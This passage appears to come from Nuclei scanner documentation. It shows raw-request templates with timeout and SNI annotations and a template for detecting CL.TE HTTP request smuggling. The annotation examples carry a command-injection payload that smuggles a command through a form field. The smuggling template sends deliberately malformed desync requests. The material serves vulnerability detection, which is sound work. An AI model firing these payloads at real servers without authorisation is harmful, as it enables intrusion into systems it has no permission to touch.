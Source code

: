 Example of a custom **`timeout`** annotations -

```yaml
- |
  @timeout: 25s
  POST /conf_mail.php HTTP/1.1
  Host: {{Hostname}}
  Content-Type: application/x-www-form-urlencoded
  
  mail_address=%3B{{cmd}}%3B&button=%83%81%81%5B%83%8B%91%97%90M
```

Example of **`sni`** annotation with **`interactsh-url`** -

```yaml
- |
  @tls-sni: interactsh-url
  POST /conf_mail.php HTTP/1.1
  Host: {{Hostname}}
  Content-Type: application/x-www-form-urlencoded
  
  mail_address=%3B{{cmd}}%3B&button=%83%81%81%5B%83%8B%91%97%90M
```

## **Smuggling**

HTTP Smuggling is a class of Web-Attacks recently made popular by [**Portswigger’s Research**](https://portswigger.net/research/http-desync-attacks-request-smuggling-reborn)into the topic. For an in-depth overview, please visit the article linked above.

In the open source space, detecting http smuggling is difficult particularly due to the requests for detection being malformed by nature. Nuclei is able to reliably detect HTTP Smuggling vulnerabilities utilising the [**rawhttp**](https://github.com/projectdiscovery/rawhttp) engine.

The most basic example of an HTTP Smuggling vulnerability is CL.TE Smuggling. An example template to detect a CE.TL HTTP Smuggling vulnerability is provided below using the **`unsafe: true`** attribute for rawhttp based requests.

```yaml
id: CL-TE-http-smuggling

info:
  name: HTTP request smuggling, basic CL.TE vulnerability
  author: pdteam
  severity: info
  reference: https://portswigger.net/web-security/request-smuggling/lab-basic-cl-te

http:
  - raw:
    - |+
      POST / HTTP/1.1
      Host: {{Hostname}}
      Connection: keep-alive
      Content-Type: application/x-www-form-urlencoded
      Content-Length: 6
      Transfer-Encoding: chunked
      
      0
      
      G      
    - |+
      POST / HTTP/1.1
      Host: {{Hostname}}
      Connection: keep-alive
      Content-Type: application/x-www-form-urlencoded
      Content-Length: 6
      Transfer-Encoding: chunked
```
